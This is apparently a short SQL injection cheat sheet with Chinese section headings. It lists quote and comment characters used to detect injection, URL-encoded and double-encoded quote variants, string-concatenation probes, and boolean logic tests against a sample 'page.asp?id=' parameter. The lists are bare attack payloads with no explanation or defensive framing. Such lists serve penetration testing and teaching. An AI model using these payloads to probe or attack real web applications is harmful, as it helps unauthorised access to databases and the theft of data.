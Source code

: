  #### 简单字符
	'
	%27
	"
	%22
	#
	%23
	;
	%3B
	)
	Wildcard (*)
	&apos;  # required for XML content
 #### 编码
	%%2727
	%25%27
 #### 合并字符
	`+HERP
	'||'DERP
	'+'herp
	' 'DERP
	'%20'HERP
	'%2B'HERP
 #### 逻辑测试
	page.asp?id=1 or 1=1 -- true
	page.asp?id=1' or 1=1 -- true
	page.asp?id=1" or 1=1 -- true
	page.asp?id=1 and 1=2 -- false